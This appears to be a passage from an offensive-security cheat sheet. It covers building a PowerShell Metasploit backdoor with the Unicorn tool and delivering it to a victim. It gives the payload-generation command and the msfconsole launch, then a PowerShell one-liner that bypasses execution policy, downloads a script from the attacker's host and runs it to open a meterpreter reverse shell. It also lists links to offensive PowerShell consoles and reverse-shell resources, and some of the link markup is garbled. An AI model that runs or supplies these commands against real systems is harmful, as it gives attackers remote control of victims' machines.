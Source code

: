 **Detected as malicious code**

### MSF-Unicorn

[[https://github.com/trustedsec/unicorn|https://github.com/trustedsec/unicorn]]

Create a powershell version of metasploit backdoor using unicorn

```
python unicorn.py windows/meterpreter/reverse_https 10.2.0.5 443
```
```
Start msfconsole with the created resource:

```
msfconsole -r unicorn.rc
```
```
Start a web server serving the _powershell_attack.txt_ file and execute in the victim:

```
powershell -exec bypass -c "iwr('http://10.2.0.5/powershell_attack.txt')|iex"
```
```
**Detected as malicious code**

## More

[[https://github.com/jaredhaight/PSAttack) PS console with some offensive PS modules preloaded (cyphered|PS>Attack]]\
[[https://gist.github.com/NickTyrer/92344766f1d4d48b15687e5e4bf6f93c|https://gist.github.com/NickTyrer/92344766f1d4d48b15687e5e4bf6f9]][[https://github.com/SecureThisShit/WinPwn) PS console with some offensive PS modules and proxy detection (IEX|\
WinPWN]]

## References

- [[https://highon.coffee/blog/reverse-shell-cheat-sheet/|https://highon.coffee/blog/reverse-shell-cheat-sheet/]]
- [[https://gist.github.com/Arno0x|https://gist.github.com/Arno0x]]
- [[https://github.com/GreatSCT/GreatSCT|https://github.com/GreatSCT/GreatSCT]]
- [[https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/|https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/]]
- [[https://www.hackingarticles.in/koadic-com-command-control-framework/|https://www.hackingarticles.in/koadic-com-command-control-framework/]]
- [[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md|https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md]]
- [[https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/|https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/]]



